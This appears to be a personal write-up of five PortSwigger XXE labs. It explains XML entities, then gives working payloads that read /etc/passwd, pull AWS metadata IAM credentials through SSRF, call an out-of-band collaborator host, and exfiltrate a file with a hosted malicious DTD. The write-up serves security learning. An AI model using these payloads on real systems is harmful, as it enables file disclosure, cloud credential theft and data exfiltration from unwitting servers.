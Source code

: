 ![2023-10-21_16-06](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ce19025d-089d-4ec1-95bb-98d739550540)![2023-10-21_16-06](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3d36b6f5-0bb0-4061-993c-cf02487ebdb4)### XML-INJECTION (Portswigger labs)


### <u>Meaning of XML injection </u>
   XML means extensible markup language.It is a form of language designed for storing data and transporting data.It uses a tree-like structure for data storage.
It does not use predefined tags like html.Data can be given to describe the data.Xml applies important elements like xml entities,xml elements and
document type definition(DTD).The document type definition allows custom entities to declared within the declaration.There are two forms of custom entity.
- Custom Entities
- Custom External Entities
### Custom entities
For example

     <!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
The value "my entity value" can be called with &myentity;
### Custom External entities
  External entities will lead us to the first portswigger challenge.This form of custom entities is declared outside the declaration.The example given below uses the keyword SYSTEM which requires a value in url format e.g file:/// url wrapper to load custom external entities.
For example

     <!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
The file url can be used to read files like /etc/passwd etc

### Challenge 1

Challenge description: Read /etc/passwd by  exploiting XXE(XML External Entity)

![2023-10-18_14-29](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ab0f3280-ed81-4eb6-9059-916666c14bc2)

- I explored the site functionalities and I noticed that the site requests data was xml based.

  ![2023-10-18_20-56](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8a1000e6-653c-4296-b08e-7770d7d49c9d)

- I intercepted the check stock request with burpsuite and sent it to the repeater

![2023-10-18_20-59](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4d1cc80c-59a1-4b81-9f77-089634fb91fe)

- To read the file "/etc/passwd", I used this payload from hacktrickz.com

       <?xml version="1.0" encoding="UTF-8"?>
       <!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
        <stockCheck><productId>
         &example;
        </productId><storeId>1</storeId></stockCheck>
    
- And I got this a response from the server showing the contents of the /etc/passwd file
  
![2023-10-18_21-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6252eb19-98b1-4895-8fc0-1585b75c71ea)

- I right clicked on the repeater and showed response in browser and that was how I solved the first challenge

![2023-10-18_21-18](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e722aebe-a491-472b-8447-c14e3e14bf20)

### Challenge 2

Challenge description: Exploiting XXE to get SSRF attacks

![2023-10-18_21-25](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d805517a-8684-402e-b21d-ee368336884e)

- From the challenge description,It was stated that the "check stock" feature parses xml input.I intercepted the the request

![2023-10-18_21-33](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3b38d8ca-55f9-4e6c-9bb3-cbba95a42e38)

- I used this payload to get the secret token of the Amazon Ec2 metadata instance

       <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY example SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
      <stockCheck><productId>&example;</productId><storeId>1</storeId></stockCheck>

- I got this response

![2023-10-18_21-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6dda8f15-06c7-42f5-a078-ef7a4ce4521d)

- Challenge solved

![2023-10-18_21-50](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/208c1e52-9adc-409d-a780-9b080b868849)

### Challenge3
Challenge description: Exploit Xinclude to retrieve file /etc/passwd

![2023-10-18_22-04](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6cdf1414-094c-48d2-a538-7626255a7b97)

- I sent the check stock feature request to the repeater,I noticed that it was not in xml format but just plain POST data

![2023-10-18_22-21](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9c09b928-c8d3-47f6-aba5-73f661da373e)

- I pasted this payload as the value of  the productID parameter

      <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/></foo>
  
- And I was able to read the contents of file /etc/passwd 

![2023-10-18_22-26](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8ca0c654-f7c7-4c90-9b23-f01e5e45dd7c)

### Challenge 4

Challenge description: Blind XXE by out-of-band interaction(Making a request to burp collaborator with XXE)

![2023-10-18_22-43](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/813ccb79-d43c-4f49-ad45-76e2d09ebb95)

- I fired up burp's collaboarator and copied the link


![2023-10-18_22-44](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4a52c176-b314-4c5d-96a9-2e5228e1d970)

- I used this payload

      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://5z5ifxf7c0kn64v7atwvdyhsbjha54tt.oastify.com"> ]>
      <stockCheck><productId>
      &xxe;</productId><storeId>1</storeId></stockCheck>
  
- Then I sent this payload to the server
    
![2023-10-18_22-52](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c0245328-7d0f-40fe-b614-a887d7a78dfa)

- I noticed that a request has been made to burp collaborator,Challenge solved

![2023-10-18_22-55](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/211832e4-b1e8-42f3-966a-c410ba2c0ebc)

### Challenge 5

Challenge's description: Exploiting blind XXE to exfiltrate data with malicious DTD

![2023-10-21_15-38](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/b8327cf3-da92-4ad9-b4a1-c2b310b22875)

- The main goal of the challenge was to use the malicious DTD to exfiltrate the /etc/hostname file
- Portswigger provided an exploit server to host the malicious DTD

![2023-10-21_16-01](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8908e0e8-28fc-4e1f-b302-e2bd224b0f84)

- After intercepting the check stock request,I noticed that regular entities are not allowed.

   ![2023-10-21_16-06](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/abeae0b5-ad52-4871-b45f-6330f11c42ba)

- You can bypass it by using parameter entities.A parameter entity is not like a regular entity because it can be called within the dtd and not within the xml tags.e.g

      <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///etc/hostname" >] %xxe;>
- I hosted this payload on the portswigger exploit server to read the file "/etc/hostname" and also send the contents of the file to burp collaborator server

       <!ENTITY % file SYSTEM "file:///etc/hostname">
       <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM '<burp collaborator link>/?x=%file;'>">
       %eval;
       %exfiltrate;
- In burp repeater,I sent an xml request to induce the server to load the url hosted on Portswigger exploit server containing our malicious DTD file
  ![2023-10-21_16-22](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c144d8e1-762c-465f-b57b-0e29e0090fe4)

- Then,I received this token through burp collaborator server.

![2023-10-21_16-42](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1865f097-e388-44b8-b035-116b77e3406c)

- I submitted the token and solved the challenge.

![2023-10-21_17-00](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/bedca5f4-4116-4f43-926e-ec874ca7cd9b)
